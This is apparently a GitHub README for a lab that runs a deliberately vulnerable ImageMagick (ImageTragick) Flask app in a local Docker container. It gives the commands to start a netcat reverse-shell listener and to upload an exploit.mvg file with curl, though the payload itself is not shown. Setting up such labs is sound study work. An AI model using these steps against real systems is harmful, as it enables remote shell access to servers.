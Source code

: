 # docker-imagetragick

Run a containerised Flask app that relies on a version of ImageMagic that is vulnerable to the ImageTragick bug.

## Steps

1. Download this repo and build it locally:

       `$ docker build -t imagetragick .`
   
2.  Run the image and create a container:

        $ docker run -d -p 127.0.0.1:8080:8080 --name imagetragick_container imagetragick

3. Listen for the reverse shell:

        $ nc -l -n -vvv -p 4443

4. Edit the contents of `exploit.mvg` so that it uses the correct IP address that `nc` is listening on.

5. Upload exploit to vulnerable application:

        $ curl -v -F file=@exploit.mvg http://127.0.0.1:8080

## Links

https://imagetragick.com/
